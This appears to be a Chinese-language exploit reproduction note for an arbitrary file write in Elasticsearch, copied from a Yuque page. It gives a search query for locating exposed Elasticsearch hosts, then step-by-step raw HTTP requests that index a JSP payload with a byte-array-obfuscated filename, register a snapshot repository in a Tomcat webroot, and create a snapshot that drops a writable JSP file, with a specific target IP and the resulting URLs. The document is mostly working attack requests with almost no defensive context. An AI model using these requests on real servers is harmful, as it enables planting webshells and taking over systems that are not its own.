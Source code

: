 # Elasticsearch存在任意文件写入漏洞

# 一、漏洞描述
Elasticsearch向使用者提供执行脚本代码的功能，支持mvel, js,groovy,python,和native语言，默认脚本语言为mvel。Elasticsearch存在任意文件写入漏洞

# 二、影响版本
Elasticsearch

# 三、资产测绘
```plain
app="Elasticsearch"
```

![1730009233361-9686bf63-9f51-42ac-819e-9bd09b99b929.png](./img/QnkKANvHTfXRP0Kk/1730009233361-9686bf63-9f51-42ac-819e-9bd09b99b929-807804.png)

# 三、漏洞复现
1、创建一个恶意索引文档

```plain
POST /a.jsp/a.jsp/1 HTTP/1.1
Host: 123.58.224.8:32565
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: settingStore=1630480512401_0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 228

{"<%new java.io.RandomAccessFile(application.getRealPath(new String(new byte[]{47,116,101,115,116,46,106,115,112})),new String(new byte[]{114,119})).write(request.getParameter(new String(new byte[]{102})).getBytes());%>":"test"}
```

![1730010630201-6d1b0034-4b48-4e50-8a3b-631b7d52e123.png](./img/QnkKANvHTfXRP0Kk/1730010630201-6d1b0034-4b48-4e50-8a3b-631b7d52e123-859650.png)

2、再创建一个恶意的存储库，其中location的值即为要写入的路径（需要根据肉鸡的tomcat的www目录来决定）

```plain
PUT /_snapshot/a.jsp HTTP/1.1
Host: 123.58.224.8:32565
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: settingStore=1630480512401_0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 107

{
"type": "fs",
"settings": {
"location": "/usr/local/tomcat/webapps/wwwroot/",
"compress": false
}
}
```

![1730010641746-77a29c62-63cd-4336-9313-f7deca4e6370.png](./img/QnkKANvHTfXRP0Kk/1730010641746-77a29c62-63cd-4336-9313-f7deca4e6370-688334.png)

3、存储库验证并创建

```plain
PUT /_snapshot/a.jsp/a.jsp HTTP/1.1
Host: 
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:92.0) Gecko/20100101 Firefox/92.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Connection: close
Cookie: settingStore=1630480512401_0
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 102

{
     "indices": "a.jsp",
     "ignore_unavailable": "true",
     "include_global_state": false
}
```

![1730010655294-9e9d90a8-fd4a-4c75-93d0-ef003dc37487.png](./img/QnkKANvHTfXRP0Kk/1730010655294-9e9d90a8-fd4a-4c75-93d0-ef003dc37487-616035.png)

4、写入jsp文件，这个jsp的文件是通过8080来访问的

```plain
/wwwroot/indices/a.jsp/snapshot-a.jsp?f=success
```

![1730010687125-d3c494d0-8f7e-4c6c-990f-b97eac530d42.png](./img/QnkKANvHTfXRP0Kk/1730010687125-d3c494d0-8f7e-4c6c-990f-b97eac530d42-084669.png)

5、在www根目录下会生成一个test.jsp的文件，并会成功被写入success

```plain
/wwwroot/test.jsp
```

![1730010705354-9724ef91-05da-4b8f-ae5d-41aae14d3c46.png](./img/QnkKANvHTfXRP0Kk/1730010705354-9724ef91-05da-4b8f-ae5d-41aae14d3c46-559091.png)



> 更新: 2024-11-27 10:04:43  
> 原文: <https://www.yuque.com/xiaokp7/ocvun2/ktd5oh8xdfle1g4c>